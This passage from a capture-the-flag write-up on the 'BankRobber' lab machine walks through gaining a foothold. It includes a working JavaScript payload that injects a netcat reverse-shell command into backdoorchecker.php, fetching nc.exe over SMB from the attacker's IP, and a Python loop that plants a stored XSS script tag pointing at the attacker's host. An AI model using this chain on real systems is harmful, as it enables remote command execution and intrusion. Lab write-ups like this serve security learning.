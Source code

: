 ![]({{ site.baseurl }}/images/BankRobber-Writeup/7.png)

if we try “whoami” :

![]({{ site.baseurl }}/images/BankRobber-Writeup/8.png)

but if we try “dir” :

![]({{ site.baseurl }}/images/BankRobber-Writeup/9.png)

so it accepts request only from localhost,
also if we try something like ‘dirabcd’ :

![]({{ site.baseurl }}/images/BankRobber-Writeup/10.png)

we see similar output as ‘dir’ . That means that our server accepts all strings that start with ‘dir’ but from localhost.That brings the first idea when we stole admin’s cookies . We can force him to do this request and execute some malicious command .
I did setup a directory and put nc.exe inside to use it as our reverse shell using smbserver.py
and hosted  this following js payload in a http server:

```javascript
var xhttp = new XMLHttpRequest();
xhttp.open("POST", "backdoorchecker.php", true);
xhttp.setRequestHeader("Content-type", "application/x-www-form-urlencoded");
xhttp.send("cmd=diras || \\\\10.10.14.118\\www\\nc.exe -e cmd.exe 10.10.14.118 4445");
```
Which sends a post resuest to ‘backdoorchecker.php’ with our reverse shell.
I wrote a simple python script that sends xss payload every 50 seconds just because I am lazy and I don’t want to do it manually because it fails and takes some time to execute.

```python
#!/usr/bin/python
import requests , time
while True:

	s = requests.session()
	r = s.post("http://10.10.10.154/user/transfer.php",data={'fromId':'3','toId':'1','amount':'1','comment':'<script src="http://10.10.14.118/hello.js"></script>'},headers={'Cookie': 'Cookie: id=3; username=cGFwaQ==; password=cGFwaQ=='})
	print "[+] Payload sent..."
	time.sleep(50)

```
after some minutes I got my callback :

![]({{ site.baseurl }}/images/BankRobber-Writeup/11.png)

# 3-Privileges Escalation:

after surfing through directories I found this executable 'bankv2.exe' :

![]({{ site.baseurl }}/images/BankRobber-Writeup/12.png)
